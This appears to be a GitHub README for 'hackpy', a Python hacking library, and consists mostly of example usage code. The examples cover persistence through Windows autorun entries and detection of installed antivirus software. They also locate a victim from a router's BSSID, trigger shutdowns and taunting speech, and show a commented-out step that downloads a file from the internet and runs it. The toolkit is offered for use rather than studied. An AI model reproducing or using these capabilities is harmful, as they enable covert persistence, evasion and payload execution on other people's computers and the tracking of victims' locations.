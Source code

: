 ![Python](https://www.python.org/static/img/python-logo@2x.png)
# `pip install hackpy`
![](https://picua.org/images/2019/07/02/a565a62aa7c27eb1339c6cb0be7c9d49.png)

# Example usage:
``` python
import hackpy

hackpy.clean() # Remove all hackpy temp files from system
hackpy.load(architecture=64) # default it 32

# Autorun
hackpy.autorun('C:\\Windows\\System32\\cmd.exe', 'test_name', state=True) # Add cmd.exe to startup
hackpy.autorun('C:\\Windows\\System32\\cmd.exe', 'test_name', state=False) # Remove cmd.exe from startup

# Detect installed antivirus software on computer:
data = hackpy.detect_protection()
for antivirus in data:
    print('[!] - Antivirus detected: ' + antivirus + ', install path: ' + data[antivirus])

# Information about you IP:
data = hackpy.ip_info()
print('[?] - You IP is: ' + data['query'])
print('[?] - You live in: ' + data['country'] + ', country code: ' + data['countryCode'])
# Return dict: {"query", "status", "country", "countryCode", "region", "regionName", "city", "zip", "lat", "lon", "timezone", "isp", "org", "as", "local"}

# Information about other IP:
data = hackpy.ip_info('216.58.215.110')
print('[?] - Other Information about IP:\n' + str(data))
# Return dict: {"query", "status", "country", "countryCode", "region", "regionName", "city", "zip", "lat", "lon", "timezone", "isp", "org", "as"}

# Get router bssid:
bssid_string = hackpy.router()
# Find LATITUDE and LONGITUDE with router BSSID:
data = hackpy.bssid_locate(bssid_string)
print('LATITUDE: ' + str(data['lat']) + ', LONGITUDE: ' + str(data['lon']) + ', RANGE: ' + str(data['range']))

# Nircmdc reference: https://nircmd.nirsoft.net
hackpy.nircmdc('monitor off')
hackpy.nircmdc('speak text \"HAHAHAHAHHAH IM FIND YOU!\"')
# System commands
hackpy.system('shutdown -s -t 0')

# Load and execute file from internet
# file = hackpy.wget(direct.link.here)
# os.startfile(file)
```

<br> *nircmdc reference: https://nircmd.nirsoft.net* <br>

![SITE](https://i.ibb.co/znRLN0D/image.png)
